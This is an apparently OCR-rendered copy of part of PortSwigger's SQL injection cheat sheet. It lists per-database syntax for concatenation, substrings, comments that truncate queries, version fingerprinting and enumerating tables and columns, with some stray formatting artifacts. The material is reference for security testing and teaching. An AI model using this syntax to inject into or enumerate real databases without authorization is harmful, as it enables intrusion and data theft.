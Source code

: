 
[PORTSWIGGER SQL injection cheat sheet] https://portswigger.net/web-security/sql-injection/cheat-sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

String concatenation
--------------------

You can concatenate together multiple strings to make a single string.

 Oracle  `'foo'||'bar'` 
 
 Microsoft  `'foo'+'bar'` 
 
 PostgreSQL  `'foo'||'bar'` 
 
 MySQL `'foo' 'bar'` \
`CONCAT('foo','bar')` 

Substring
---------

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

| Oracle  `SUBSTR('foobar', 4, 2)` |
| Microsoft  `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL  `SUBSTRING('foobar', 4, 2)` |
| MySQL  `SUBSTRING('foobar', 4, 2)` |

Comments
--------

You can use comments to truncate a query and remove the portion of the original query that follows your input.

| Oracle  `--comment\` |

| Microsoft  `--comment\
/*comment*/` |

| PostgreSQL  `--comment\
/*comment*/` |

| MySQL  `#comment`\
`-- comment` 
`/*comment*/` |

Database version
----------------

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Oracle  `SELECT banner FROM v$version\
SELECT version FROM v$instance\` |

| Microsoft  `SELECT @@version` |

| PostgreSQL  `SELECT version()` |

| MySQL  `SELECT @@version` |

Database contents
-----------------

You can list the tables that exist in the database, and the columns that those tables contain.

| Oracle  `SELECT * FROM all_tables\
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| Microsoft  `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\` |
| PostgreSQL  `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\` |
| MySQL  `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
